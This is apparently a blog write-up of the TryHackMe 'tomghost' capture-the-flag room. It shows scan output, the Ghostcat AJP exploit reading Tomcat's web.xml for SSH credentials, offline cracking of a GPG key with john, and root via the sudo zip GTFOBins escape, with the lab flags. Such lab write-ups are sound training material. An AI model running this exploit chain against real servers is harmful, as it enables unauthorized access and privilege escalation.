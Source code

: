 ```yaml
---
title: "tomghost - TryHackMe"
author: Ludovic COULON
date: 2020-05-12
hero: ./images/hero.jpeg
excerpt: "Writeup for the tomghost challenge"
---
```


[TryHackMe | tomghost](https://tryhackme.com/room/tomghost)

<div className="Image__Medium">
  <img src="https://i.imgur.com/fR0jVuM.png" alt="blog_image" />
</div>

**Are you able to complete the challenge?**

The machine may a take up to 5 minutes to boot and configure.

### Setup

```bash
nmap -sV -sC -vv 10.10.68.237
```

```bash
Discovered open port 53/tcp on 10.10.68.237
Discovered open port 22/tcp on 10.10.68.237
Discovered open port 8080/tcp on 10.10.68.237
Discovered open port 8009/tcp on 10.10.68.237
```

```bash
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw

53/tcp   open  tcpwrapped syn-ack

8009/tcp open ajp13 syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open http syn-ack Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After trying to exploit the Apache Tomcat, I realize that I was wrong about that, so I tried the other port 8009 Apache Jserv I search on github for one exploit and I found this.

[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

```bash
python3 ajpShooter.py http://10.10.68.237:8080 8009 /WEB-INF/web.xml read
# URL:PORT + Jserv PORT + /WEB-INF/web.xml read
```

<div className="Image__Medium">
  <img src="https://imgur.com/FtZHUNJ.png" alt="blog_image" />
</div>

```bash
skyfuck:8730281lkjlkjdqlksalks
# Let's try to ssh this
```

<div className="Image__Medium">
  <img src="https://imgur.com/fsV6mGi.png" alt="blog_image" />
</div>

### #1 Compromise this machine and obtain user.txt

<div className="Image__Medium">
  <img src="https://imgur.com/XCy6lRK.png" alt="blog_image" />
</div>

```bash
skyfuck@ubuntu:~$ cd /home
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```

### #2 Escalate privileges and obtain root.txt

If you going back to the skyfuck's home directory you will see the "credential.pgp" "tryhackme.asc"

let's scp them to our machine to crack them.

```bash
➜  TryHackMe scp skyfuck@10.10.68.237:/home/skyfuck/credential.pgp .
skyfuck@10.10.68.237 password:
credential.pgp

➜  TryHackMe scp skyfuck@10.10.68.237:/home/skyfuck/tryhackme.asc .
skyfuck@10.10.68.237 password:
tryhackme.asc
```

For this i'll use gpg2john

```bash
➜  TryHackMe sudo gpg2john tryhackme.asc > bopme

File tryhackme.asc
➜  TryHackMe cat bopme
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

Now the fun part crack the gpg !

```bash
➜  TryHackMe sudo john bopme --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

"alexandru"        (tryhackme)

1g 0:00:00:00 DONE (2020-05-12 14:27) 10.00g/s 10720p/s 10720c/s 10720C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Nice we have the password

```bash
alexandru
```

Now let's decrypt the pgp file, but first let's import the tryhackme.asc

```bash
➜  TryHackMe gpg --import tryhackme.asc
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

# password => alexandru
```

```bash
➜  TryHackMe gpg --decrypt credential.pgp
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Nice we have the merlin's ssh password

<div className="Image__Medium">
  <img src="https://imgur.com/zrEzvSs.png" alt="blog_image" />
</div>

Let's root the machine !

[zip | GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

```bash
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls
root.txt  ufw
$ cat root.txt
THM{Z1P_1S_FAKE}

```


